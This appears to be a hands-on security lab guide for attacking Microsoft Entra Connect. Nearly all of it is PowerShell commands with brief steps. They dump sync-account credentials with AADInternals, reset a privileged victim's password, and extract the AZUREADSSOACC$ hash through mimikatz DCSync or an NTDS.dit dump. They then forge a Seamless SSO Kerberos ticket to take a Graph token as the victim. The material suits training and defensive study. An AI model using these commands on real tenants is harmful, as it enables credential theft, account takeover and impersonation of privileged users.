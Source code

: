 # lab 2 - Entra Connect Attacks
### Prepare a victim user with high privileges: 
in Entra portal (login with your admin tenant creds), select ***user10*** and assign it with the **Application Administrator** role


#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Entra Connect server (in our case- it's the DC VM)

## 1. Extract Entra Connect Credentials and target a victim user

#### 1. Dumping and Extracting Entra (Azure AD) Connect credentials:
1. run powershell as admin on the server where Entra Connect is installed
2. execute:
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```
3. get some recon:
```powershell
Invoke-AADIntReconAsOutsider -DomainName YOURDOMAIN.onmicrosoft.com
```

#### 2. Finding a target (victim) user to attack

```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

## 2. Reset Password Attack
#### Reset the user's Entra password:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
Get-AADIntAccessTokenForAADGraph -SaveToCache

Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```

Now, open browser in incognito and login as that user with the new password :) 


#
## 3. Silver Ticket (Seamless SSO) Attack
#### 1. Detect if SSO is enabled:
```powershell
$body = @{
    "username" = "victim@mydomain.onmicrosoft.com"
} | ConvertTo-Json

$response = Invoke-RestMethod -Uri "https://login.microsoftonline.com/common/GetCredentialType" -Method Post -Body $body -ContentType "application/json"
$response
```

Set the domain:
```powershell
$domain = "MYDOMAIN" # change to your domain name WITHOUT the ".onmicrosoft.com" part 
```

#### 2. Get AZUREADSSOACC computer account's hash:
```powershell
# Option 1: Get-ADReplAccount
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain $domain -Server dcvm # take the "NTHash" part

# Option 2: mimikatz
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$"
    
# Option 3: Dump NTDS.dit and registry:
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
# Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.

# use DSInternals
Import-Module DSInternals

# Get the Boot key
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'

# Get the password's hash of AZUREADSSOACC
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex
# remote the empy spaces and keep the hash
```

Set the hash:
```powershell
$hash = "CHANGEME"
```
#### 3. Find victim user to impersonate
1. option 1:
    ```powershell
    # Option 1: query Entra + get roles
    Import-Module AzureAD
    Connect-AzureAD # use the dumped Entra Connect creds (Sync_XXX account)


    # Option 2: query AD (w/o getting Entra roles)
    Get-ADReplAccount -SamAccountName 'victim' -Domain $domain -Server dcvm
    ```

Set the victim user's SID:
```powershell
$victimUserSid = "S-1-5-21-CHANGEME" # set the sid of the user you wish to impersonate
```

#### 4. Perform the attack
```powershell
$fullyQualifiedDomain = "$domain.onmicrosoft.com" # change to your domain name

# generate kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString $victimUserSid -Hash $hash

# get an access token for that user
$at =Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain $fullyQualifiedDomain

# start exploring using MS Graph API!
$MaximumFunctionCount = 8192 # bypass powershell's scope memory limit
Import-Module Microsoft.Graph.Users
$securedAT = ConvertTo-SecureString $at -AsPlainText -Force
Connect-MgGraph -AccessToken $securedAT

Get-MgUser
#Readme: https://aka.ms/graph/sdk/powershell
#SDK Docs: https://aka.ms/graph/sdk/powershell/docs
#API Docs: https://aka.ms/graph/docs
```
What can you do now that you are an Application Administrator?